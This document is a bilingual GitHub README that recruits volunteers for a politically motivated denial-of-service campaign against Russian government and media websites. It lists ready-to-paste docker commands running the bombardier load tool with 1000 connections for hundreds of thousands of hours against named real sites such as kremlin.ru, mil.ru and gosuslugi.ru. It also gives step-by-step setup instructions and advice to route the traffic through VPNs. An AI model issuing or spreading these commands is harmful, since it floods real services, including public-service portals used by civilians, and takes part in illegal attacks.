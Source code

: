 # bombardier
Fight agains propoganda

# If you have kubertnetes cluster `./run_all_kuber.sh`
[Kubernetes Docs](docs/digital_ocean_kubernetes.md)

The easiest way

`docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mil.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l http://www.scrf.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://ach.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://epp.genproc.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.gosuslugi.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.1tv.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mid.ru`
<br>

# Инструкция для пользователей Windows и Mac:
1. Установить Docker: https://www.docker.com/products/docker-desktop
2. Запустить докер и убедиться, что Docker Started
3. Зайти сюда https://github.com/almerico/bombardier/blob/main/README.md
4. Для лучшего результата используйте ВПН and (
<br>Psiphon
<br>Secure VPN
<br>Proton VPN
<br>SurfShark
or
<br>Clear VPN
<br>Proton VPN
<br>Nord VPN)

5. Найти в программах Windows Command Prompt и запустить от имени Администратора
6. Запустить столько отдельных CMD консолей, сколько вы собираетесь запускать скриптов (каждая строчка - скрипт)
7. Запустить все цели из resources.txt для виндовс из Консли run_windows.bat для Linux/Mac ./run_all_docker.sh для целей из resources.txt (или ./run_all_docker.sh файл-с-целями)
8. Для выполнения с конкретными целями - Скопировать скрипт (например docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru) и нажать энтер
9. Убедиться, что процесс пошёл
10. Ждать падения рашки


# Instruction for Windows and Mac:
1. Install Docker: https://www.docker.com/products/docker-desktop (For mac please pay attention if you download version for the correct chip)
2. Launch Docker and make sure that Docker is running
3. Go here https://github.com/almerico/bombardier/blob/main/README.md
4. For best result use VPN(
<br>Psiphon
<br>Secure VPN
<br>Proton VPN
<br>SurfShark
or
<br>Clear VPN
<br>Proton VPN
<br>Nord VPN)
5. Find in application Windows Command Prompt or Terminal for Mac and launch as an admin.
6. run all aims from resources.txt for winodws - `run_windows.bat` for Linux/Mac `./run_all_docker.sh ` for resources.txt  or ( .`/run_all_docker.sh your_aim_file`)
7. If you want select aims mainally . `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://mid.ru` Open as many separate CMD consoles as many scripts you are going to launch (each line – one script)
8. Make sure that the process started
9. Wait till russia fall
